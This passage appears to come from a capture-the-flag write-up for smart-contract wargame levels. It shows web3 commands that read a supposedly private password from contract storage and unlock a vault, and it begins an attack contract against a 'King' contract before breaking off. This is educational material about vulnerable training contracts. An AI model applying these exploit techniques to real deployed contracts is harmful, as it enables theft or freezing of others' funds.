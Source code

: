 #### How it can be exploited
Run the following commands:

- Get the private password:

```javascript
await web3.eth.getStorageAt(instance,1) // returns 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```
- Call the unlock function:

```javascript
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```
- Verify that the contract is not locked again
```javascript
await contract.locked() // returns false
```
#### My Recommendation(s)
Never store imortant informations on-chain.


## Level 9


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}


contract AttackTheKing {
    King kingContract;

    constructor(address payable  _kingContract) {
        kingContract =  King(_kingContract);
    }

    function attack() external payable  {
        require(msg.value == 1 ether);
       (bool success,) = address(kingContract).call{value: msg.value}("");
       require(success);
    }
```